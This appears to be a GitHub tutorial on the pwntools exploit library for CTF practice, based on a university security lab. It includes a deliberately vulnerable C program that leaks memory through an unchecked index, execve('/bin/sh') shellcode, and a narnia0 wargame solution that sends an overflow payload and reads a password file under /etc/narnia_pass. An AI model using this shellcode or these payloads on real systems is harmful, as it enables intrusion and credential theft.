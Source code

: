 # pwntools - CTF toolkit

From [1]:
> Pwntools is a CTF framework and exploit development library. Written in Python, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.

The following tutorials build from [4]:

### Assembly and ELF manipulation

For a simple code like:
```C
#include <stdio.h>

int main(int argc, char* argv[])
{
	char flag[10] = {'S', 'E', 'C', 'R', 'E', 'T', 'F', 'L', 'A', 'G'};
	char digits[10] = {'0', '1', '2', '3', '4', '5', '6', '7', '8', '9'};
	int index = 0;

	while (1) {
		printf("Give me an index and I'll tell you what's there!\n");
		scanf("%d", &index);
		printf("Okay, here you go: %p %c\n", &digits[index], digits[index]);
	}
	return 0;
}
```

We compile it:
```bash
root@8beb97f8d305:/tutorial/tutorial6# gcc -o leaky leaky.c
```

and run the following Python script:
```Python
#!/usr/bin/env python
from pwn import *

leaky_elf = ELF('leaky')
main_addr = leaky_elf.symbols['main']

# Print address of main
log.info("Main at: " + hex(main_addr))

# Disassemble the first 14 bytes of main
log.info(disasm(leaky_elf.read(main_addr, 14), arch='x86'))
```

Delivering:
```
root@8beb97f8d305:/tutorial/tutorial6# python example1.py
[*] '/tutorial/tutorial6/leaky'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Main at: 0x4005d6
[*]    0:   55                      push   ebp
       1:   48                      dec    eax
       2:   89 e5                   mov    ebp,esp
       4:   48                      dec    eax
       5:   83 ec 50                sub    esp,0x50
       8:   89 7d bc                mov    DWORD PTR [ebp-0x44],edi
       b:   48                      dec    eax
       c:   89                      .byte 0x89
       d:   75                      .byte 0x75
```

### Shellcode from assembly
Available in `example6.py`. Shortly:
```Python
#!/usr/bin/env python
from pwn import *

# Define the context of the working machine
context(arch='i386', os='linux')

# Get a simple shellcode
log.info("Putting together simple shellcode")

sh_shellcode2 = """
        /* execve(path='/bin///sh', argv=['sh'], envp=0) */
        /* push '/bin///sh\x00' */
        push 0x68
        push 0x732f2f2f
        push 0x6e69622f
        mov ebx, esp
        /* push argument array ['sh\x00'] */
        /* push 'sh\x00\x00' */
        push 0x1010101
        xor dword ptr [esp], 0x1016972
        xor ecx, ecx
        push ecx /* null terminate */
        push 4
        pop ecx
        add ecx, esp
        push ecx /* 'sh\x00' */
        mov ecx, esp
        xor edx, edx
        /* call execve() */
        push SYS_execve /* 0xb */
        pop eax
        int 0x80
"""
# Create a binary out of some shellcode
e = ELF.from_assembly(sh_shellcode2, vma=0x400000, arch='i386')
```

### Shellcraft
Only managed to make it work for 32-bit binaries. Refer to `example4.py` for a working example with 32-bits and to `example5.py` for a non-working example with 64-bits.



### Examples
#### narnia1
As an example, provided the following problem http://overthewire.org/wargames/narnia/narnia1.html:

```Python
from pwn import *

context(arch='i386', os='linux')
s = ssh(user='narnia0', host='narnia.labs.overthewire.org', password='narnia0', port=2226)
sh = s.run('/narnia/narnia0')
sh.sendline('A'*20 + p32(0xdeadbeef))
sh.sendline('cat /etc/narnia_pass/narnia1')
while 1:
    print(sh.recvline())
# log.info('Flag: '+sh.recvline().split('\n')[0])
s.close()

```

### Bibliography
- [1] Gallopsled, *pwntools*. Retrieved from https://github.com/Gallopsled/pwntools.
- [2] Gallopsled, *pwntools Docs*. Retrieved from https://docs.pwntools.com/en/stable/index.html.
- [3] Exploit Database. Retrieved from https://www.exploit-db.com/.
- [4] University Politehnica of Bucharest, Computer Science and Engineering Department, Computer and Network Security. *Lab 07 - Exploiting. Shellcodes (Part 2)*. Retrieved from https://ocw.cs.pub.ro/courses/cns/labs/lab-07.
